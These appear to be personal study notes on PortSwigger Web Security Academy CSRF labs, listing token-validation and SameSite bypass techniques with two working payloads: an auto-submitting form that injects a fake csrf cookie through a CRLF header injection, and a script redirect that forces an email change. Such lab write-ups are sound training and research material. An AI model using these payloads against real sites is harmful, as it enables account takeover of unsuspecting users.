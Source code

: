 # CSRF

## Practitioner
- CSRF where token validation depends on request method
    - Notice that CSRF validation does not exist for GET requests. Use the exploit server to stage a RCE which automatically triggers a GET request to the /change-email endpoint and submits on page load.
- CSRF where token validation depends on token being present
    - Similar exploit, but it's a POST request and simply does not include the CSRF token.
- CSRF where the token is not tied to the user session
    - Similar–– craft a malicious form using the unused CSRF token from another user to trick the server.
- CSRF where token is tied to non-session cookie
- CSRF where token is duplicated in cookie
    - Since the server merely checks if the csrf token matches the cookie, we stage an exploit to update the search query parameter sink to set a fake crsf cookie, and set the csrf token to the same fake value.
    ```
    <form action="https://0ae800630314cfa683893c200074004f.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="evil@hacker.net" />
    <input type="hidden" name="csrf" value="fake" />
    </form>
    <img src="https://0ae800630314cfa683893c200074004f.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();" />
    ```
- Same site lax bypass via method override
    - The samesite attribute defaults to Lax, which means the cookie will be sent in cross-site GET requests. Craft a payload that navigates to the change-email endpoint and uses the _method query parameter to override the HTTP request method.
    ```
    <script>
    document.location = "https://0ac3000203ca9b4add16983800c00022.web-security-academy.net/my-account/change-email?email=pwnedo@web-security-academy.net&_method=POST";
    </script>
    ```